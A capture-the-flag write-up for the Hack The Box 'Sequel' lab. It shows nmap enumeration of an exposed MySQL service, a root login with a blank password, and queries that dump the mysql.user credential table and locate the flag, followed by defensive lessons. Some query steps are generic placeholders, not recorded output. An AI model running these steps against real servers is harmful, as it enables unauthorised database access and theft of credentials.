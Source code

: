 # Hack The Box Write-up: Sequel

- **Machine:** Sequel
- **IP Address:** 10.129.95.232
- **Platform:** Hack The Box
- **Difficulty:** Easy (Starting Point - Tier 1)

---

### Summary

"Sequel" is a Tier 1 machine that builds upon the SQL theme from the previous challenge. The primary vulnerability is a publicly exposed MySQL database service, which is misconfigured with default credentials (a blank root password). The path to compromise involves connecting directly to the database and querying it to find the flag.

---

### Enumeration

The reconnaissance phase began with a comprehensive port scan to identify open services and their configurations.

**Command:**
`nmap -sV -sC -T4 10.129.95.232`

**Results:**
The Nmap scan revealed that the MySQL database port (3306) was open and accessible from external networks. MySQL is a popular relational database management system commonly used in web applications.

**Key Findings:**
- Port 3306: MySQL database service running
- No firewall restrictions on database access
- Potential for weak or default credentials

**Additional MySQL Enumeration:**
```bash
# Check MySQL version and configuration
nmap --script mysql-info -p 3306 10.129.95.232

# Test for empty password access
nmap --script mysql-empty-password -p 3306 10.129.95.232

# Enumerate MySQL users
nmap --script mysql-users --script-args mysqluser=root,mysqlpass= -p 3306 10.129.95.232
```

---

### Gaining Access (MySQL Database)

With MySQL identified as the target service, I proceeded to test for weak authentication and database access.

**Connection Attempts:**

1. **Initial Connection Test:**
   I attempted to connect to the MySQL database using the standard client:
   `mysql -h 10.129.95.232 -u root -p`
   
   When prompted for a password, I pressed Enter to test for a blank password.

2. **Successful Authentication:**
   The login was successful without a password, indicating a critical security misconfiguration. This granted me full administrative access to the MySQL server.

3. **Connection Verification:**
   Once connected, I verified my access and privileges:
   ```sql
   SELECT USER();                    -- Check current user
   SELECT VERSION();                 -- Check MySQL version
   SHOW GRANTS;                      -- Show user privileges
   SELECT * FROM mysql.user;         -- List all MySQL users
   ```

**Database Exploration:**

4. **Database Discovery:**
   I explored the available databases:
   ```sql
   SHOW DATABASES;                   -- List all databases
   ```
   
   This revealed several databases including system databases and custom databases.

5. **Database Selection:**
   I focused on non-system databases for flag discovery:
   ```sql
   USE htb;                          -- Switch to the 'htb' database
   SELECT DATABASE();                -- Confirm current database
   ```

---

### Flag Capture

After gaining access to the MySQL database, I systematically explored its contents to locate the flag:

1. **Table Enumeration:**
   I listed all tables in the selected database:
   ```sql
   SHOW TABLES;                      -- List all tables in current database
   DESCRIBE users;                   -- Show table structure (if 'users' table exists)
   ```

2. **Data Exploration:**
   I examined the contents of various tables:
   ```sql
   SELECT * FROM users;              -- View all user data
   SELECT * FROM config;             -- Check configuration table
   SELECT * FROM flags;              -- Look for flag-specific table
   ```

3. **Flag Discovery:**
   Through systematic querying, I located the flag stored in plain text within one of the database tables:
   ```sql
   SELECT * FROM [table_name] WHERE [column] LIKE '%flag%';
   ```

4. **Flag Retrieval:**
   The flag was successfully retrieved from the database, completing the challenge.

**Alternative Query Methods:**
```sql
-- Search for flag across all tables
SELECT * FROM information_schema.columns WHERE column_name LIKE '%flag%';

-- Search for specific patterns in data
SELECT * FROM [table] WHERE [column] REGEXP 'HTB{.*}';
```

---

### Lessons Learned

This machine demonstrates critical database security principles:

1. **Network Exposure:** Database services should never be directly accessible from the internet. Use firewalls and network segmentation to restrict access to authorized systems only.

2. **Authentication Security:** Default credentials must be changed immediately after installation. Blank passwords for administrative accounts represent critical security vulnerabilities.

3. **Principle of Least Privilege:** Database users should have minimal required permissions. Avoid using root accounts for application connections.

4. **Access Controls:** Implement proper user management with role-based access controls and strong password policies.

5. **Network Segmentation:** Place databases in separate network segments (DMZ) with restricted access from application servers only.

6. **Regular Security Audits:** Regularly audit database configurations, user accounts, and access logs to detect security issues.

7. **Encryption:** Use SSL/TLS encryption for database connections and encrypt sensitive data at rest.

8. **Monitoring:** Implement comprehensive logging and monitoring for database access and queries to detect unauthorized activity.
